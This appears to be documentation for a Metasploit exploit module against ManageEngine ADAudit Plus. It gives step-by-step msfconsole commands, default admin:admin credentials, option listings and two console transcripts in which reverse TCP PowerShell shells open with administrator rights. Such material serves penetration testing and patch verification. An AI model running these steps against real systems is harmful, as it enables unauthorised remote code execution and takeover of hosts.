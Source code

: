## Vulnerable Application
This module exploits security issues in ManageEngine ADAudit Plus prior to 7006 that allow authenticated users to execute arbitrary code
by creating a custom alert profile and leveraging the custom alert script component.

This module first runs a few checks to test the provided credentials, retrieve the configured domain(s) and
obtain the build number of ManageEngine. If the credentials are valid and the target is vulnerable, the module
creates an alert profile that will be triggered for any failed login attempt to the configured domain.

For versions prior to build 7004, the payload is directly inserted in the custom alert script component of the alert profile.

For builds 7004 and 7005, the module leverages an arbitrary file write vulnerability (CVE-2021-42847) to create a Powershell script
in the alert_scripts directory that contains the payload. The name of this script is then provided as the value for the custom
alert script component of the alert profile. For these builds, Meterpreter payloads such as 
`cmd/windows/powershell/meterpreter/reverse_tcp` do not seem to work and only the `cmd/windows/powershell_reverse_tcp`
payload has been tested successfully.

This module will automatically delete the created alert profile before completing. This happens even if no shell was obtained.

This module requires valid credentials for an account with the privileges to create alert scripts.
It has been successfully tested against ManageEngine ADAudit Plus builds [7003](https://archives2.manageengine.com/active-directory-audit/7003/ManageEngine_ADAudit_Plus_x64.exe)
and [7005](https://archives2.manageengine.com/active-directory-audit/7005/ManageEngine_ADAudit_Plus_x64.exe) running on Windows Server 2012 R2.

Successful exploitation will result in RCE as the user running ManageEngine ADAudit Plus, which will typically be the local administrator.

## Installation Information
Vulnerable versions of ADAudit Plus are available [here](https://archives2.manageengine.com/active-directory-audit/). Versions 7005 and prior
are vulnerable by default, so no special configuration is required after installing the application.

After running the installer, you can launch ADAudit Plus by opening Command Prompt with administrator privileges
and then running: `<install_dir>\bin\run.bat`.

The default ADAudit Plus credentials (set as default options for the module) are `admin`:`admin`.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `exploit`

## Options
### AUTH_DOMAIN
The ADAudit Plus authentication domain to use. The default is `ADAuditPlus Authentication`. If the provided domain
does not match an authentication domain that is configured for the target, the module will throw an error and inform the user.

### USERNAME
Username to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

### PASSWORD
Password to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

## Scenarios
### ManageEngine ADAudit Plus build 7003 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > options 

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.91.250              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.91.195   yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7003
[*] Attempting to create an alert profile
[+] Successfully created alert profile UiYnupjyi24
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:54442) at 2022-10-12 12:09:43 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:54441) at 2022-10-12 12:09:43 +0300
[*] Attempting to delete alert UiYnupjyi24
[+] Successfully deleted alert UiYnupjyi24

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/mwlhr.ps1
[+] Successfully wrote the payload to /alert_scripts/mwlhr.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile dVmy0Ygz
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[!] Make sure to manually cleanup the mwlhr.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:41348) at 2022-10-12 12:59:28 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:41347) at 2022-10-12 12:59:28 +0300
[*] Attempting to delete alert profile dVmy0Ygz
[+] Successfully deleted profile alert dVmy0Ygz

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```
